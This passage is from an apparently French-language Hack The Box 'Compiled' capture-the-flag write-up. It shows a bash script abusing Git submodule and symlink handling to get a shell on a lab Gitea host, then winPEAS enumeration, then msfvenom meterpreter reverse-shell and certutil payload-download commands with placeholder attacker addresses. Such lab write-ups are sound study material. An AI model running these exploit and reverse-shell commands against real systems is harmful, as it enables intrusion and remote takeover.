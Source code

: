 ```bash
cd venom
git submodule add --name x/y "http://compiled.htb:3000/kscorpio/scorpion.git" A/modules/x

# Commit and push the submodule addition
git commit -m "add-submodule"
printf ".git" >dotgit.txt
git hash-object -w --stdin <dotgit.txt >dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info
git update-index --index-info <index.info
git commit -m "add-symlink"
git push
```

![exploit script execution](/images/HTB-Compiled/exploit_script.png)

Après avoir exécuté le script, nous soumettons le lien de notre second dépôt à `http://compiled.htb:5000/`.

![malicious url](/images/HTB-Compiled/malicious_url.png)

Quelques instants après, nous obtenons un shell sous le nom de `Richard`.

![initial foothold](/images/HTB-Compiled/initial_foothold.png)

Le drapeau utilisateur n'est pas sur ce compte, nous devons donc chercher ailleurs. Il y a un autre utilisateur appelé `Emily` sur la cible, nous devons probablement accéder à ce compte.

Avec [winPEAS](https://github.com/peass-ng/PEASS-ng/releases/tag/20241205-c8c0c3e5), nous apprenons que `Emily` est actuellement connectée sur le système et que `Richard` a un accès complet à `C:\Program Files\Gitea` que nous explorerons plus en détail.

![Logged users](/images/HTB-Compiled/logged_users.png)

![Gitea directory](/images/HTB-Compiled/Gitea_directory.png)

### Mouvement latéral (shell en tant que Emily)

Dans `C:\Program Files\Gitea\data` nous trouvons le fichier `gitea.db`. Si Emily a un compte sur l'instance Gitea, nous pourrions y trouver ses identifiants.

![Gitea db file](/images/HTB-Compiled/gitea_db.png)

Pour télécharger le fichier, nous passons à un shell meterpreter.

Créez un fichier exécutable et l'envoyer à la cible.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=PORT_NUMBER -f exe -o payload.exe


certutil.exe -urlcache -split -f http://WEBSERVER_IP:PORT_NUMBER/payload.exe payload.exe
```
